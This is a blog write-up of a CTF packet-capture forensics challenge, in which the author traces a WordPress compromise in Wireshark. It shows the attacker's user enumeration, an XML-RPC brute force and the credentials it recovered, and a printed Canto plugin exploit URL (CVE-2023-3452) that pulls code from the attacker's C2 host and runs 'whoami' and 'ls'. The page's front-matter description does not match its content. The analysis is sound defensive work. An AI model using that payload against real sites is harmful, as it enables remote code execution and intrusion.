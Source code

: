 ```yaml
---
layout: post
author: kranthikvrm
title: 0xL4ugh CTF 2024 (PCAP Analysis) - Writeup
description: In this blog post, I am sharing my experiences from my first year at RGUKT Nuzvid, where I experienced new faces, challenges, and exciting opportunities on my journey towards becoming an engineer.
date: 2024-02-13 07:43:00 +0800
categories: [CTF Writeups]
tags: [CTF, CTF Writeups]
img_path: /images/0xL4ughCTF
image:
  path: 0xL_logo.png
pin: true
---
```


Hello buddy, I am Kranthi Kumar, a cybersecurity enthusiast. Recently I participated in the 0xL4ugh CTF, so I am writing how I solved these challenges:

## Challenge 1: WordPress - 1 [Easy]
```
Our WordPress site has experienced a security breach, and the precise method of compromise remains undetermined at present. We need your help to investigate what actually happened.

Q1. There were two attackers attempting to compromise our environment. What is the IP address of the victim, and what is the IP address of the first attacker?

Q2. What are the versions of the Apache and PHP servers deployed in our environment?

Flag Format: 0xL4ugh{A1_A2}

Example: 0xL4ugh{IP1_IP2_apache1.2.3_php1.2.3}(no spaces)
```
<b>My approach:</b>

They gave us a wordpress.pcap file, so I started my analysis using Wireshark.

First things first, I filtered out `http.request traffic` to get a lead. I observed that the IP `192.168.204.132` tried accessing `/wordpress/robots.txt` and `/wordpress/xmlrpc.php`, and `GET /wordpress/wp-content/uploads/` paths. It is very clear that this is the attacker's IP.
![IP addresses found](1.png)

So, Q1 victim IP: 192.168.204.128  and attacker IP: 192.168.204.132

Following the HTTP stream gave us the server and php version information.

![server version found](2.png)

So the flag is `0xL4ugh{192.168.204.128_192.168.204.132_apache2.4.58_php8.2.12}`


## Challenge 2: WordPress - 2 [Medium]
```

Q1. During enumeration, the attacker tried to identify users on the site. List all the users that the attacker enumerated. Separate them with a colon. Sort them alphabetically.

Q2. After enumeration, a brute force attack was launched against all users. The attacker successfully gained access to one of the accounts. What are the username and password for that account, and what is the name of the page used for the brute force attack?

Flag Format: 0xL4ugh{A1_A2}

Example: 0xL4ugh{username1:username2_username:password_pageName.ext}
```

<b>My approach:</b>

As we already know the attacker IP, I filtered the traffic with the "POST" method as it is used to log in and the source IP as the attacker IP.

`ip.src == 192.168.204.132 && http.request.method == POST`

I found three login attempts and also the three usernames and passwords.
![login attempts](22.1.png)
![login attempts](22.2.png)
![login attempts](22.3.png)

So it's `a1l4m:demomorgan:not7amoksha` in alphabetical order.

Moving forward to Q2, to find out the brute force attack, I filtered traffic so that all HTTP traffic from and to `192.168.204.132` will be visible.

`((ip.src == 192.168.204.132) || (ip.dst == 192.168.204.132)) && http`

![brute force attempts](3.png)

I found 5 POST requests to the `/wordpress/xmlrpc.php` path. Following the HTTP stream revealed that the attacker tried the "wp.getUsersBlogs" command with two parameters to extract users.
![brute force attempts -1](3.1.png)

So for sure, the second parameter is the password that the attacker used. I saw too many failed attempts. I tried to filter only the successful attempts using

`(ip.dst == 192.168.204.132) && !(xml.cdata == "403") && (_ws.col.protocol == "HTTP/XML")`

The above filter or query, (ip.dst == 192.168.204.132): This part filters packets where the destination IP address is 192.168.204.132 and !(xml.cdata == "403") this part selects packets where the XML data field (xml.cdata) is not equal to "403". So, it excludes packets containing XML data equal to "403" and (_ws.col.protocol == "HTTP/XML"), this part filters packets where the protocol in the Wireshark column is "HTTP/XML".

I analyzed all the filtered packets, and the packet 147357 response says that the login successful. I found it by following the HTTP stream.
![brute force attempts -2](3.2.png)

So the username:password is `demomorgan:demomorgan`

And I know that the brute forced web page is `xmlrpc.php`
![brute force attempts -3](3.3.png)
With the all the information, I got the final flag, it is `0xL4ugh{a1l4m:demomorgan:not7amoksha_demomorgan:demomorgan_xmlrpc.php}`

## Challenge 3: WordPress - 3 [Hard]
```
Q1. Mention the names of the tools that the attacker used in the attack. (in alphabetical order)

Q2. There was a vulnerable plugin that the attacker exploited. What is the C2 server of the attacker, and what is the name of the plugin?

Q3. What is the version of the vulnerable plugin, and what is the CVE number associated with that plugin?

Flag Format: 0xL4ugh{A1_A2_A3}

Example: 0xL4ugh{tool1_tool2_C2_PluginName_1.2.3_CVE--}

```

<b>My approach:</b>

To solve Q1, I have to find the tools that the attacker used for the attack. Most of the times, checking the user-agent will give us this data. So let's check the HTTP traffic again.

With `(ip.src == 192.168.204.132) && http.request` filter

![user agent checking](4.1.png)

User-Agent: `WPScan v3.8.25 (https://wpscan.com/wordpress-security-scanner)`

Attacker tried SQL Injection attack using sqlmap. 
User-Agent: `sqlmap/1.7.12#stable (https://sqlmap.org)`
![user agent checking](4.png)
Sorting them in alphabetical order: `sqlmap_WPScan`

Moving forward to Q2, I have to find the vulnerable plugin that the attacker exploited.

so I used this filter `http contains "plugins"` and found the below leads.

![vulnerable plugin](4.2.png)

URL: `http://192.168.204.128/wordpress/wp-content/plugins/canto/includes/lib/download.php?wp_abspath=http://172.26.211.155:8000&cmd=whoami` and `cmd=ls`

I found that a plugin named "Canto" along with a command `whoami` and `ls` at the end of the URL. So this is the vulnerable plugin.

With the information in hand, I can say the answer for Q2 is `172.26.211.155_canto`.

Moving to Q3, and after some analysis, nothing was there related to plugin version and CVE. So I did a Google search, and the first hit shows that Canto 3.0.4 is vulnerable to CVE-2023-3452.
![vulnerable plugin details](4.3.png)
With the information gathered, the answer to Q3 is `3.0.4_CVE-2023-3452`. So the final flag is `0xL4ugh{SQLMap_WPScan_172.26.211.155_canto_3.0.4_CVE-2023-3452}`. 

Thank you for reading buddy ❤️
